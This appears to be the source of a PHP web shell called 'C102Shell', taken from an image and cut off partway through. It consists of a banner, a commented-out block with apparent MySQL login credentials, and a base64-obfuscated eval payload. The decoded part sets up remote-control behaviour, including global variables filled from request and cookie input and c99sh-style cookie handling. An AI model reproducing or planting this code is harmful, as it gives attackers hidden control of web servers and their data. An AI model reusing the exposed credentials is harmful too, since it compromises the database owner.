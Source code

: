 ###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
###
####
// C102Shell
// Coded By EGY-MaF!4
// Contact: v4r@w.cn
// Don't Hack Musllim & arabicSites 
*/
/*
//////////////////////////
// $mysql_use = "yes"; //"no"   //
// $mhost = "localhost";
// $muser = "beautij5_cmsadm";
// $mpass = "BP$ucc3$$";
// $mdb = "beautij5_cmsdb02";
/////////////////////////
*/
eval(base64_decode('IyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMj
IyMjIyMjIyMNCiMgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAg
ICAgICAgICAgICAgRUdZLU1hRiE0ICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAg
ICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIw0KIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMj
IyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMjIyMNCi8vIEMxMDJTaGVsbA0K
Ly8gQ29kZWQgQnkgRUdZLU1hRiE0DQovLyBEb24ndCBIYWNrIE11c2xsaW0gJiBhcmFiaWNTaXRl
cyANCmlmICghZnVuY3Rpb25fZXhpc3RzKCJnZXRtaWNyb3RpbWUiKSkge2Z1bmN0aW9uIGdldG1p
Y3JvdGltZSgpIHtsaXN0KCR1c2VjLCAkc2VjKSA9IGV4cGxvZGUoIiAiLCBtaWNyb3RpbWUoKSk7
IHJldHVybiAoKGZsb2F0KSR1c2VjICsgKGZsb2F0KSRzZWMpO319IA0KZXJyb3JfcmVwb3J0aW5n
KDUpOyANCkBpZ25vcmVfdXNlcl9hYm9ydChUUlVFKTsgDQpAc2V0X21hZ2ljX3F1b3Rlc19ydW50
aW1lKDApOyANCiR3aW4gPSBzdHJ0b2xvd2VyKHN1YnN0cihQSFBfT1MsMCwzKSkgPT0gIndpbiI7
IA0KZGVmaW5lKCJzdGFydHRpbWUiLGdldG1pY3JvdGltZSgpKTsgDQppZiAoZ2V0X21hZ2ljX3F1
b3Rlc19ncGMoKSkge2lmICghZnVuY3Rpb25fZXhpc3RzKCJzdHJpcHMiKSkge2Z1bmN0aW9uIHN0
cmlwcygmJGFyciwkaz0iIikge2lmIChpc19hcnJheSgkYXJyKSkge2ZvcmVhY2goJGFyciBhcyAk
az0+JHYpIHtpZiAoc3RydG91cHBlcigkaykgIT0gIkdMT0JBTFMiKSB7c3RyaXBzKCRhcnJbIiRr
Il0pO319fSBlbHNlIHskYXJyID0gc3RyaXBzbGFzaGVzKCRhcnIpO319fSBzdHJpcHMoJEdMT0JB
TFMpO30gDQokX1JFUVVFU1QgPSBhcnJheV9tZXJnZSgkX0NPT0tJRSwkX0dFVCwkX1BPU1QpOyAN
CmZvcmVhY2goJF9SRVFVRVNUIGFzICRrPT4kdikge2lmICghaXNzZXQoJCRrKSkgeyQkayA9ICR2
O319IA0KDQokc2h2ZXIgPSAiMS4wIHBSZS1SM2xlYVNlIGJ1aTFkICMwOSI7IC8vQ3VycmVudCB2
ZXJzaW9uIA0KLy9DT05GSUdVUkFUSU9OIEFORCBTRVRUSU5HUyANCmlmICghZW1wdHkoJHVuc2V0
X3N1cmwpKSB7c2V0Y29va2llKCJjOTlzaF9zdXJsIik7ICRzdXJsID0gIiI7fSANCmVsc2VpZiAo